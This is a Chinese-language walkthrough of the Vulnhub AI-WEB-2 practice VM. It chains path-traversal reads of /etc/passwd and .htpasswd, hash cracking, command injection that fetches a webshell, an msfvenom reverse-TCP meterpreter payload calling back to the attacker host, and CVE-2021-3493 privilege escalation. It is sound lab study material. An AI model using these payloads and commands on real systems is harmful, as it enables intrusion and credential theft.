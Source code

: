 ```yaml
---
title: Vulnhub靶场笔记-AI-WEB2
date: 2023-11-08 18:53:00 +0800
img_path: /
categories: [肾透, Vulnhub靶场]
tags: [肾透, Vulnhub靶场]     # TAG names should always be lowercase
---
```


# AI-WEB-2

## 一、环境配置

更改网络适配器为NAT模式

![image-20231108203932205](assets/image-20231108203932205.png)

## 二、主机探测

在物理机中查看VMnet8网卡

![image-20231108145349160](assets/image-20231108145349160.png)

使用`fscan`探测AI-WEB-2靶机ip地址为：192.168.157.134

![image-20231108204303667](assets/image-20231108204303667.png)

![image-20231108204437632](assets/image-20231108204437632.png)

## 三、WEB信息收集

```bash
dirsearch -u http://192.168.157.134/
```

![image-20231108204718190](assets/image-20231108204718190.png)

存在`/webadmin`目录，但是需要账号密码

## 四、任意文件读取

看到有个注册的按钮，那就先注册一个账户进去。

![image-20231108205146048](assets/image-20231108205146048.png)

![image-20231108205207683](assets/image-20231108205207683.png)

通过搜索关键字找到FileSharing的历史漏洞：https://www.exploit-db.com/exploits/40009

![image-20231108205501932](assets/image-20231108205501932.png)

http://192.168.157.134/download.php?file_name=../../../../../../../../../../../../../etc/passwd

![image-20231108205651243](assets/image-20231108205651243.png)

http://192.168.157.134/download.php?file_name=../../../../../../../../../../etc/apache2/.htpasswd

利用任意文件读取apache系统认证文件，里面保存着账号密码。

![image-20231108205808240](assets/image-20231108205808240.png)

可通过爆破得到目录：`/etc/apache2/.htpasswd`
 账号密码：`aiweb2admin:$apr1$VXqmVvDD$otU1gx4nwCgsAOA7Wi.aU/`
 账号是aiweb2admin，密码被加密了，使用**john**解密一下。

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt passwd  
```

![image-20231108203226795](assets/image-20231108203226795.png)

## 五、命令注入漏洞

输入账号密码认证后，`/webadmin/`存在`robots.txt`

![image-20231108210219191](assets/image-20231108210219191.png)

在`/H05Tpin9555`中存在命令注入

![image-20231108210348456](assets/image-20231108210348456.png)

通过命令注入漏洞远程下载冰蝎马

kali中在木马所在目录启动http服务器

```sh
python3 -m http.server 8888
```

![image-20231108210725428](assets/image-20231108210725428.png)

远程下载冰蝎马

![image-20231108210636473](assets/image-20231108210636473.png)

冰蝎连接，因`webadmin`目录存在认证所以需要自定义请求头来通过认证

![image-20231108210816438](assets/image-20231108210816438.png)

![image-20231108210923647](assets/image-20231108210923647.png)

## 六、提权拿Flag

发现疑似`ssh`连接信息的文件

![image-20231108211202056](assets/image-20231108211202056.png)

```txt
User: n0nr00tuser
Cred: zxowieoi4sdsadpEClDws1sf
```

ssh连接

```sh
ssh n0nr00tuser@192.168.157.134
zxowieoi4sdsadpEClDws1sf
```

![image-20231108211533221](assets/image-20231108211533221.png)

上线`msf`

```sh
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.157.138 LPORT=4444 -f elf > shell.elf

use exploit/multi/handler
set LHOST 192.168.157.138
set payload linux/x64/meterpreter/reverse_tcp
run
```

利用冰蝎将`shell.elf`上传到`/var/www/html/webadmin/H05Tpin9555/`

![image-20231108211721502](assets/image-20231108211721502.png)

在给`shell.elf`赋权限时发现不允许，将`shell.elf`复制到可赋权的目录`/tmp`

```sh
cp shell.elf /tmp/
cd /tmp
chmod +x shell.elf
./shell.elf
```

![image-20231108212023600](assets/image-20231108212023600.png)

上线后按`CTRL+Z`选择`y`保存`session`

![image-20231108212307838](assets/image-20231108212307838.png)

提权`cve-2021-3493`

```shell
search cve-2021-3493
use 0
set SESSION 0
run
```

![image-20231108212448933](assets/image-20231108212448933.png)

![image-20231108212541516](assets/image-20231108212541516.png)
